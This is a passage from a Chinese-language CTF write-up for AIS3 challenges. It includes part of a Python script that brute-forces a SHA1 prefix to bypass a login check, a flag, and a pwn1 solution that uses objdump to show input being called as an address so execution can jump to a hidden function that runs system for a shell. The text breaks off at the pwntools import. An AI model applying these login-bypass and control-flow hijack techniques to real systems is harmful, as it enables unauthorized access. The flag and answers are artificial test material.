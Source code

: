 ```python=
        for i in range(16):
            S_test += random.choice(string.letters)
        m = hashlib.sha1()
        m.update(fo1+S_test)
        shone = m.digest().encode('hex')
        print 'Now trying:',shone
        if shone.startswith('f00d'):
            S = S_test
            break
    post_data = {'username':fo1+S,'password':fo2+S}
    req = requests.post(HOST,data=post_data)
    print req.content

```
暴力嘗試一下就好了
![](https://i.imgur.com/tRejXnb.png)

###### flag: AIS3{Any_limitation_can_not_stop_me!!!!!l!!!!}

pwn　1 (1pt)
---


#### Description
Find the flag!

telnet://quiz.ais3.org:9561

pwn1.bin

#### Solution
先執行給的檔案看看，叫我們輸入一個string，亂輸入就seg fault
![](https://i.imgur.com/fsHQwtn.png)
用objdump可以大致上看出來它把我們的輸入當address來call
```
 8048678:       e8 d3 fd ff ff          call   8048450 <__isoc99_scanf@plt>
 804867d:       83 c4 10                add    $0x10,%esp
 8048680:       8d 45 e4                lea    -0x1c(%ebp),%eax
 8048683:       8b 00                   mov    (%eax),%eax
 8048685:       89 45 e0                mov    %eax,-0x20(%ebp)
 8048688:       8b 45 e0                mov    -0x20(%ebp),%eax
 804868b:       ff d0                   call   *%eax
```
至於要跳到哪
我在裡面翻到有個function叫``youcantseeme``
```
0804860a <youcantseeme>:
 804860a:       55                      push   %ebp
 804860b:       89 e5                   mov    %esp,%ebp
 804860d:       83 ec 08                sub    $0x8,%esp
 8048610:       83 ec 0c                sub    $0xc,%esp
 8048613:       68 5c 87 04 08          push   $0x804875c
 8048618:       e8 03 fe ff ff          call   8048420 <system@plt>
 804861d:       83 c4 10                add    $0x10,%esp
 8048620:       90                      nop
 8048621:       c9                      leave  
 8048622:       c3                      ret
```
看了一下　它call了system，命令放在``0x804875c``
![](https://i.imgur.com/w6oKb77.png)
用gdb看了一下，是call shell!!!
所以直接跳過去可以拿到shell
```python=
from pwn import *
```